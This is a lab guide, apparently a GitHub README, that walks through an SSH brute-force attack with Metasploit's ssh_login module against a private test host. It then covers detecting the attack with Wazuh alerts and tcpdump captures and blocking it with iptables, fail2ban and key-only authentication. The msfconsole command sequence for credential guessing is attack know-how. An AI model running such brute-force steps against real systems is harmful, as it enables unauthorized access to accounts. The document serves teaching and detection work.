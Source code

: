 # SSH-Brute-Force-Attack-using-Metasploit-with-Threat-Detection-via-Wazuh
Demonstrate an SSH brute-force attack using Metasploit’s ssh_login module, verify access, observe the attack with network captures and Wazuh alerts, and apply immediate mitigation (iptables). This is a lab/demo guide to understand attack mechanics and detection.
# Tools & Environment

Attacker: Kali Linux (msfconsole / Metasploit). (Example IP: 192.168.1.69)

Victim: Ubuntu/Linux with SSH enabled (Example IP: 192.168.1.71, port 22).

Monitoring: Wazuh (log-based detection) and Wireshark / tcpdump (network captures).

Client: ssh / PuTTY to verify credentials.

Mitigation: iptables for quick host-based blocking.

# Quick background

SSH (Secure Shell) provides encrypted remote access (default port 22). Encryption protects session contents, but weak passwords remain a major risk.

Metasploit provides an auxiliary/scanner/ssh/ssh_login module that automates trying username/password pairs against SSH services—useful for testing and demonstration.

# Project objective

Use Metasploit to brute-force SSH credentials on a lab victim, confirm access, show how Wazuh and packet captures reveal the attack, and block the attacking IP.

# Step-by-step (attack & verification)

Prepare credential lists on Kali

/root/user.txt — candidate usernames (one per line)

/root/passwords.txt — candidate passwords (one per line)

# Launch Metasploit

msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.71
set RPORT 22
set USER_FILE /root/user.txt
set PASS_FILE /root/passwords.txt
run


run will iterate combos and print successes (e.g., Success: cisco:password123).

Verify access

ssh cisco@192.168.1.71
# enter discovered password
echo "Proof: accessed via Metasploit test" > attacked.txt


Creating attacked.txt (or similar) proves you had interactive access in the lab.

# Detection & Monitoring
Wazuh (log-based)

Configure Wazuh to monitor SSH logs (/var/log/auth.log or /var/log/secure).

Alerts to expect:

Repeated Failed password entries from the same source IP → brute-force pattern.

An eventual Accepted password/authentication success → compromise.

PAM session open/close entries if PAM is used.

Recommend rule tuning to alert when failures exceed a threshold within a time window.

Network analysis (Wireshark / tcpdump)

SSH is encrypted, so payloads aren’t readable, but metadata and connection patterns are revealing.

Capture example:

sudo tcpdump -i eth0 -s 0 -w ssh_attack.pcap port 22


Indicators to look for:

High rate of short-lived TCP connections from one IP to port 22.

Many TCP connection attempts and resets within a short time window.

A successful session after many failures — correlate timestamps with msfconsole output.

Use Wireshark statistics (Conversations / Endpoints) to find the top talkers.

# Mitigation
Immediate (host block)

Block attacker IP:

sudo iptables -A INPUT -s <ATTACKER_IP> -p tcp --dport 22 -j DROP
sudo iptables -L INPUT -v -n   # verify rule present


Script example:

# block_ssh.sh
#!/bin/bash
if [[ $EUID -ne 0 ]]; then echo "Run as root"; exit 1; fi
iptables -A INPUT -s "$1" -p tcp --dport 22 -j DROP

# Longer-term defenses

Disable password auth: enforce SSH key-based authentication (PasswordAuthentication no in sshd_config).

Use fail2ban / sshguard: automatic temporary bans for repeated failures.

Restrict access: allow SSH only from trusted management IPs (iptables or firewall rules).

Strong credentials & rotation: enforce complex passwords if password auth must remain.

Centralized logging / SIEM: aggregate logs for cross-host correlation and alerting.

Safety & ethics

Run these steps only in a controlled lab or with explicit authorization. Unauthorized attacks or testing on production/public systems is illegal and unethical.

# Summary

Metasploit’s ssh_login module makes it simple to illustrate SSH brute-force attacks. Wazuh alerts (log-based) and network captures (Wireshark/tcpdump) both reveal different facets of the attack — use both for robust detection. Immediate iptables rules block the source; long-term protection relies on key-only auth, automatic banning tools, and restricted access.
